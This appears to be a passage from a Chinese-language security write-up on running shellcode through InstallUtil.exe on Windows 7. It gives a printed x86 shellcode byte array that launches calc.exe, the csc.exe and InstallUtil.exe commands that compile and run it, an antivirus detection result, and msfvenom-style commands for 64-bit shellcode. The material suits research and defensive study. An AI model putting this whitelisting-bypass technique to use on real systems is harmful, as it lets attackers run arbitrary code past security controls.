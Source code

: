```
byte[] buf = new byte[195] {
0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,0xe5,0x31,0xc0,0x64,0x8b,0x50,0x30,
0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0xc1,0xcf,0x0d,0x01,0xc7,0xe2,0xf2,0x52,
0x57,0x8b,0x52,0x10,0x8b,0x4a,0x3c,0x8b,0x4c,0x11,0x78,0xe3,0x48,0x01,0xd1,
0x51,0x8b,0x59,0x20,0x01,0xd3,0x8b,0x49,0x18,0xe3,0x3a,0x49,0x8b,0x34,0x8b,
0x01,0xd6,0x31,0xff,0xac,0xc1,0xcf,0x0d,0x01,0xc7,0x38,0xe0,0x75,0xf6,0x03,
0x7d,0xf8,0x3b,0x7d,0x24,0x75,0xe4,0x58,0x8b,0x58,0x24,0x01,0xd3,0x66,0x8b,
0x0c,0x4b,0x8b,0x58,0x1c,0x01,0xd3,0x8b,0x04,0x8b,0x01,0xd0,0x89,0x44,0x24,
0x24,0x5b,0x5b,0x61,0x59,0x5a,0x51,0xff,0xe0,0x5f,0x5f,0x5a,0x8b,0x12,0xeb,
0x8d,0x5d,0x6a,0x01,0x8d,0x85,0xb2,0x00,0x00,0x00,0x50,0x68,0x31,0x8b,0x6f,
0x87,0xff,0xd5,0xbb,0xe0,0x1d,0x2a,0x0a,0x68,0xa6,0x95,0xbd,0x9d,0xff,0xd5,
0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,
0x00,0x53,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x20,0x63,0x00 };

```

替换Shellcode.cs中的byte[] shellcode

使用.net 2.0中的csc.exe和InstallUtil.exe，执行代码：

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe /unsafe  /out:exeshell.exe Shellcode.cs

C:\Windows\Microsoft.NET\Framework\v2.0.50727\InstallUtil.exe /logfile= /LogToConsole=false /U exeshell.exe

```

成功执行shellcode，弹出计算器

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/506e463d2c78a152522e16069ca8fdd7996ba6ed.jpg)

360成功查杀，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/96aa0e6cd8c73a7f2d39db1fb1a928d988a1db28.jpg)

2、win7 x64
----------

默认.net环境

如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/2148c05ede26b5d8896b72341009a71a39c9e312.jpg)

**（1）**利用InstallUtil.exe执行pe文件

.net 3.5无法成功编译PELoader.cs

**（2）**利用InstallUtil.exe直接执行shellcode

通过msf生成64位shellcode

```
use windows/x64/exec
set CMD calc.exe
set EXITFUNC thread
generate -t csharp

```

